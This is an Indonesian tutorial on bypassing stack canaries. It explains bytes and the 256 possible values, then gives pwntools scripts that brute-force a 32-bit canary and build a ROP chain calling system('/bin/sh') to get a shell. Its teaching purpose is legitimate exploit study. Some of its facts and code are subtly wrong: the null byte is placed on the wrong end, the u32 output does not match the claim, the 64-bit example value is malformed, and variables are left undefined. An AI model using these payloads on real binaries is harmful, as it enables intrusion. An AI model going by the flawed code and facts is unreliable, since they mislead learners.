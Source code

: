 ```yaml
---
title: Bypass Stack Canary Memahami Bit, Byte, dan Nilai 256 dalam bruteforce Exploit - Pwn03
date: 2025-08-19
Tags: ["Pwn"]
---
```




## **1. Apa Itu Bit dan Byte?**  
Sebelum memahami **stack canary**, kita perlu mengerti dasar-dasar **bit** dan **byte**:  

- **1 Bit** = Nilai terkecil dalam komputasi (`0` atau `1`).  
- **1 Byte** = Kumpulan **8 bit** (contoh: `01011010`).  
  - **1 Byte bisa menyimpan nilai dari `0` sampai `255`** (total **256 kemungkinan**).  
  - Kenapa **256**? Karena `2^8 = 256` (8 bit = 256 kombinasi).  

Contoh:  
- `00000000` (binary) = `0` (decimal)  
- `11111111` (binary) = `255` (decimal)  

**Kesimpulan:**  
- **1 Byte = 8 Bit = Nilai 0-255 (total 256 kemungkinan).**  
- **Nilai 256 dipakai karena itu batas maksimal 1 byte.**  

---

## **2. Apa Itu Stack Canary?**  
**Stack Canary** adalah nilai rahasia (random) di stack yang berfungsi seperti "alarm" untuk mendeteksi **buffer overflow**.  

- **Ukuran Canary:**  
  - **32-bit program** → Canary = **4 byte** (contoh: `0xefbead00`)  
  - **64-bit program** → Canary = **8 byte** (contoh: `0xdeadbeefcafeb00`)  

- **Cara Kerja:**  
  - Jika ada **buffer overflow**, canary akan **tertimpa** sebelum return address.  
  - Sebelum fungsi selesai (`ret`), program mengecek apakah canary masih utuh.  
  - Jika **berubah** → Program crash (`*** stack smashing detected ***`).  

---

## **3. Kenapa Brute-Force Canary Menggunakan `range(256)`?**  
Karena **setiap byte canary bisa bernilai `0` sampai `255` (total 256 kemungkinan)**, kita perlu mencoba semua kemungkinan byte tersebut.  

### **Contoh Brute-Force Canary (32-bit)**
```python
from pwn import *

p = process("./binary32")  # Program 32-bit (canary 4 byte)

canary = b""  # Inisialisasi canary kosong

# Brute-force 3 byte pertama (byte ke-4 = \x00)
for i in range(3):  # 3 byte pertama
    for byte in range(256):  # Coba semua nilai byte (0-255)
        payload = b"A"*offset + canary + bytes([byte])
        p.sendline(payload)
        if b"stack smashing" not in p.recv():  # Jika tidak crash, byte benar
            canary += bytes([byte])  # Tambahkan byte yang benar
            print(f"Found byte {i+1}: {hex(byte)}")
            break

canary += b"\x00"  # Tambahkan null byte terakhir (byte ke-4)
print(f"Full canary: {hex(u32(canary))}")  # Output: 0xefbead00 (misal)
```

### **Penjelasan Kode:**  
1. **`for byte in range(256)`**  
   - Mencoba **semua nilai byte (0-255)** untuk menemukan byte yang benar.  
2. **`bytes([byte])`**  
   - Mengubah angka (misal `255`) menjadi byte (`\xff`).  
3. **`canary += b"\x00"`**  
   - Byte terakhir canary biasanya `\x00` (null byte), jadi tidak perlu ditebak.  

---

## **4. Penerapan Brute-Force Canary dalam Exploit**  
Setelah dapat **canary**, kita bisa lanjutkan eksploitasi dengan **Return-Oriented Programming (ROP)** atau **Ret2Libc**.  

### **Contoh Payload Setelah Dapat Canary (32-bit)**
```python
from pwn import *

p = process("./binary32")
offset = 64  # Ganti dengan offset yang benar
canary = b"\xef\xbe\xad\x00"  # Canary yang sudah ditemukan

# ROP chain untuk call system("/bin/sh")
rop = ROP("./binary32")
rop.call("system", [next(libc.search(b"/bin/sh"))])

payload = (
    b"A" * offset +  # Isi buffer
    canary +         # Canary yang benar
    b"B" * 12 +      # Padding (EBP & alignment)
    rop.chain()      # ROP chain
)

p.sendline(payload)
p.interactive()  # Dapat shell!
```

---

## **5. Kesimpulan**  
- **1 Byte = 8 Bit = Nilai 0-255 (256 kemungkinan).**  
- **Brute-force canary** = Mencoba semua kemungkinan byte (`0-255`) untuk menemukan nilai canary.  
- **32-bit canary** = 4 byte (3 byte ditebak, 1 byte null).  
- **64-bit canary** = 8 byte (7 byte ditebak, 1 byte null).  
- **Setelah dapat canary**, lanjutkan dengan **ROP/Ret2Libc** untuk bypass NX.  

Dengan memahami **bit, byte, dan nilai 256**, kita bisa melakukan **brute-force canary** untuk mengeksploitasi **buffer overflow**! 🚀  
